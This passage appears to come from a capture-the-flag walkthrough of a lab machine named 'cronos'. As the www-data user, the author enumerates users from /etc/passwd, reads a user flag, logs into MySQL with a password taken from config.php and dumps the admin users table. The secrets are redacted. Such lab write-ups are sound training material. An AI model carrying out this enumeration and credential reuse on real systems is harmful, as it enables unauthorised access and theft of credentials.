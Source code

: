 There is another user called ‘noulis’.

```bash
www-data@cronos:/var/www/admin$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
```

We have read access to the user’s home directory, so let’s read the flag.

```bash
www-data@cronos:/var/www/admin$ ls -lah /home/noulis
total 32K
drwxr-xr-x 4 noulis noulis 4.0K May 10  2022 .
drwxr-xr-x 3 root   root   4.0K May 10  2022 ..
-rw-r--r-- 1 noulis noulis  220 Mar 22  2017 .bash_logout
-rw-r--r-- 1 noulis noulis 3.7K Mar 22  2017 .bashrc
drwx------ 2 noulis noulis 4.0K May 10  2022 .cache
drwxr-xr-x 3 root   root   4.0K May 10  2022 .composer
-rw-r--r-- 1 noulis noulis  655 Mar 22  2017 .profile
-r--r--r-- 1 noulis noulis   33 May 28 15:13 user.txt

www-data@cronos:/var/www/admin$ cat /home/noulis/user.txt
2cc686d348a538c7****************
```

The obtained password from config.php can be used to connect to the MySQL server.

```sql
www-data@cronos:/var/www/admin$ mysql -u admin -p'<REDACTED>' -h localhost
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)
```

The admin password appears to belong to the web server. We bypassed the authentication step so it’s irrelevant for us.

```sql
mysql> describe users;
+----------+-----------------+------+-----+---------+----------------+
| Field    | Type            | Null | Key | Default | Extra          |
+----------+-----------------+------+-----+---------+----------------+
| id       | int(6) unsigned | NO   | PRI | NULL    | auto_increment |
| username | varchar(30)     | NO   |     | NULL    |                |
| password | varchar(100)    | NO   |     | NULL    |                |
+----------+-----------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | <REDACTED>                       |
```
